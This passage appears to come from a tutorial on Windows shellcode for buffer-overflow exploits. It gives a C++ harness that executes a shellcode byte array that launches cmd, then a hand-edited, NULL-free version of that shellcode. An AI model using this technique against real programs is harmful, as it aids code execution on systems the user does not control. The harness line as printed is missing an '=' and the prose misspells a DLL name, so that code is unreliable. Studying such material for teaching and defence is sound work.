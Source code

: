 Now we can test our shellcode by using the following C++ code:
```c++
#include <windows.h>
char code[] =
"\x68\x63\x6d\x64\x00"			// PUSH "cmd" - string already terminated
...
;

int main(int argc, char **argv)
{
	LoadLibraryA("Shell32.dll");	// Load shell32.dll library
	int (*func)();
	func (int (*)()) code;
	(int) (*func)();
}
```
Notice that since the compiler does not automatically load the `Shel132.dll` library in the program, we have to force the program to load it with the instruction `LoadLibraryA("Shell32.dll")`.

**NULL-free shellcode**.

If we try to use a shellcode with NULL bytes against a BOF vulnerability that uses a string function (such as `strcpy`), it will fail. This happens because when `strcpy` encounters the `\x00` byte, it stops copying data to the stack.
Therefore, we have to find a way to make our shellcode NULL-free.

There are two main techniques to do that:
- We can *manually edit* the shellcode so that it doesn't contain the string terminator. In other words, *use different instructions that perform the same operations*, but do not have NULL bytes.
- We can *encode and decode* the shellcode.

**Manual Editing**.

Previous version of the shellcode:
```
"\x68\x63\x6d\x64\x00" 			// PUSH "cmd" - string already terminated
```

Let's see how we can edit our shellcode in order to avoid the string terminator.
We can subtract (or add) a specific value in order to remove `00`. Let's say we subtract `11111111` from
`00646d63`. We will obtain `EF535C52`, which does not contain any string terminator.
Notice that instead of `11111111` we can use any value that does not contain `00` and that does not give a resulting value containing `00`.

The new NULL-free bytecode:
```
"\x33\xDB"							// XOR EBX, EBX: zero out EBX
"\xbb\x52\x5c\x53\xef"			// MOV EBX, EF535C52
"\x81\xc3\x11\x11\x11\x11"		// ADD EBX, 11111111 (now EBX contains 00646d63)
"\x53"								// PUSH EBX
```
As we can see, the new shellcode does not contain any string terminators, and the result of the operations is the same.

**Encoder tools**.
